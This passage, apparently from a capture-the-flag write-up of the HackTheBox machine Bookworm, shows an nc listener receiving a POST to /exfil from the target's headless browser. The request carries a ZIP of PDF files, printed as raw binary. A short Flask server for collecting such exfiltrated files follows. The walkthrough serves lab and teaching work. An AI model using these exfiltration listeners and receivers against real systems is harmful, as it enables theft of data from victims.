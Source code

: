 

What comes back is a ZIP archive:



    oxdf@hacky$ nc -lnvkp 80                                                                                                  
    Listening on 0.0.0.0 80                                                        
    Connection received on 10.10.11.215 47762                                      
    POST /exfil HTTP/1.1                                                           
    Host: 10.10.14.6                                                               
    Connection: keep-alive                                                         
    Content-Length: 1629                                                           
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36                                                                                                                                                                                               
    Accept: */*                                                                    
    Origin: http://bookworm.htb                                                    
    Referer: http://bookworm.htb/                                                  
    Accept-Encoding: gzip, deflate                                                 

    p>V$Alice's Adventures in Wonderland.pdfmRkAै'RhnɦmIA2L3qwVfE E< Vz)V=yDL~Ѹ{7Kj( /UQ"u                                                                         
    8Glpx   PA<yZHq&(>DdL"E]6q.4M-^)*L"_xPg5u*aנx<1~z7vV-]g+i?{4v??>oz?                                                                                           
    æ>~GmsEt/ə@xT-* JAE8,^v                                            ~ؿp;<vnQU6.GSaY")HWB                                                                       
    _`]%>,E#K=$*8k˖Hp:䚦RCB'07+r%dsnCQS%,MhaEE">XXg'SDr-m2[lڒY`;wIpwix0r@T:Ti1                                                                                    

                  Fc2v hhx85P?up>VThrough the Looking-Glass.pdfmRn@`$Tu]P)-"gUMj5Pp$XtX6;~>WaMm x39.U뺚Չ                                                          
    =R*ѭ~nnL                                                                       

    8:40mT8De̗,Ya$0jE*zG                                                            
                       $1{;hu>Wkt/̝_8||yA晸QxK,sSP?svg\yQN:,8@BO)qEhBokM0fV+@PbZaKkq]so@70z"\B/#P    ]gC*K   0/MsԮZ@':nk2>k-B                                                                                                                                                                                                     
    z+2MtEՊ4%?0ݷg5Bily                                                             
    LawzsB,֨wf3()^m@('LS7                                                           
             (Y0n3}\N?V#|P \4!dB                                                   
                                bx|.GPWG|Pp>V?u$ Alice's Adventures in Wonderland.pdfPp>VWG| Through the Looking-Glass.pdfPK 



It looks a bit weird here because some of the binary bytes end up
messing up some of the ASCII ones, but collecting it again and saving it
to a file shows that it is as I'll show in the next section.

### File Read

#### Webserver

If I'm going to be trying to collect files, it seems time to make a
better webserver than just catching them with `nc`.



    from pathlib import Path
    from flask import Flask, request

    app = Flask(__name__)

    @app.route('/exfil', methods=["POST"])
    def exfil():
        print("Got a file")
        data = request.get_data()
        output = Path(f'exfil/exfil.zip')
        output.write_bytes(data)
        return ""
